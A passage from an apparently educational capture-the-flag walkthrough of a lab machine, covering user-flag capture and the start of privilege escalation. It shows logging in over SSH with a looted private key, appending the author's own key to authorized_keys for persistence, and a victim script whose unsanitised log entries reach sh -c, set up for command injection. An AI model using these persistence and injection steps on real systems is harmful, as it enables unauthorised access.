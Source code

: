 ```plaintext
drwx------ 2 kid  kid 4.0K Feb  3 07:40 .cache
drwx------ 4 kid  kid 4.0K Feb  3 11:49 .gnupg
drwxrwxr-x 3 kid  kid 4.0K Feb  3 07:40 .local
drwxr-xr-x 9 kid  kid 4.0K Feb  3 07:40 .msf4
-rw-r--r-- 1 kid  kid  807 Feb 25  2020 .profile
drwx------ 2 kid  kid 4.0K Feb  3 07:40 .ssh
-rw-r--r-- 1 kid  kid    0 Jan  5 11:10 .sudo_as_admin_successful
drwxrwxr-x 5 kid  kid 4.0K Feb  3 11:03 html
drwxrwxrwx 2 kid  kid 4.0K Feb  3 07:40 logs
drwxr-xr-x 3 kid  kid 4.0K Feb  3 11:48 snap
-r-------- 1 kid  kid   33 Jan  5 20:45 user.txt

$ cat ../user.txt # /home/kid/user.txt
4cbc14d5ba8c34df90ed21bdd840708a
```

## Privilege Escalation of Machine : from kid to pwn

Let's find if there is another user flag:

```plaintext
kid@scriptkiddie:~$ find / -name user.txt -type f 2>/dev/null
/home/kid/user.txt
```

No there isn't. But we can loot kid's private key to have a better shell.

```
$ chmod 600 id_rsa_kid
$ ssh kid@10.129.77.135 -i id_rsa_kid
```

Note: has been patched, there is no longer some ssh key but we can add ours:
`printf %s 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINDGLndVd+2+y7FE7nVTrMtBvPiLNTMgObVw8s7d9B8n noraj@penarch' >> /home/kid/.ssh/authorized_keys`.

There is another user named `pwn` owning a script: `/home/pwn/scanlosers.sh`.

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

We have write access to `/home/kid/logs/hackers`. We can see that our date and
IP is written to this file when we try to bypass the searchploit function:

`/home/kid/html/app.py`
